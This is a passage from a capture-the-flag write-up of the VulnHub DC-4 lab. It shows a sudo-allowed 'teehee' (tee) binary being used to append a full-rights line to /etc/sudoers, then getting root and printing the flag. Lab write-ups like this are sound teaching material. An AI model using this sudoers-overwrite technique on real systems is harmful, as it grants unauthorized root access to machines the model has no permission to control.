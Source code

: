 `charles` can run `teehee` without being a sudoer. Taking a look at [this][GTFOBin]{:target="_blank"} `GTFOBin` we can 
see how we can exploit `teehee`.

```
charles@dc-4:~$ echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
charles ALL=(ALL:ALL) ALL
```

Now, `charles` can switch to `root` without needing to enter a password.

```
charles@dc-4:~$ sudo su

root@dc-4:/home/charles# cd /root

root@dc-4:~# ls -la
-rw-------  1 root root   16 Apr  7 04:31 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  2 root root 4096 Apr  6 20:32 .nano
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root  976 Apr  6 21:27 flag.txt

root@dc-4:~# cat flag.txt
888       888          888 888      8888888b.                             888 888 888 888
888   o   888          888 888      888  "Y88b                            888 888 888 888
888  d8b  888          888 888      888    888                            888 888 888 888
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888

Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

Thus, we’ve gained captured the root flag in DC: 4.

[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-12-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo